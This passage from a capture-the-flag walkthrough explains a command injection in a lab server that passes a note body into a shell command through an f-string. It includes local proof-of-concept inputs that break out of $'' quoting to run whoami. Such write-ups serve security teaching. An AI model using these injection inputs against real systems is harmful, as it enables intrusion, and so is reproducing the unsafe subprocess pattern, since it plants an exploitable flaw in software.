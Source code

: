 

And grab `user.txt`:



    svc@noter:~$ cat user.txt
    c83fff05************************



### Alternative Command Injection

#### Local POC

The string that gets passed to `subprocess` in the Python server is:



    f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"



The command itself doesn't matter here, so let's look at
`echo $'stuff' 1234`, where I control stuff:



    oxdf@hacky$ echo $'stuff' 123123
    stuff 123123



If I try to inject with `;`, it doesn't work because the single quotes
take that as a string:



    oxdf@hacky$ echo $';id' 123123
    ;id 123123



But I can add single quotes into the string I control like this:



    oxdf@hacky$ echo $'';whoami; echo'' 123123

    oxdf
    123123



So that echo's an empty string, runs `whoami`, and then prints the next
string.

I could do the same with a subshell (`$()`):



    oxdf@hacky$ echo $'$(whoami)' 123123
    $(whoami) 123123
    oxdf@hacky$ echo $''$(whoami)'' 123123
    oxdf 123123



#### Exploit
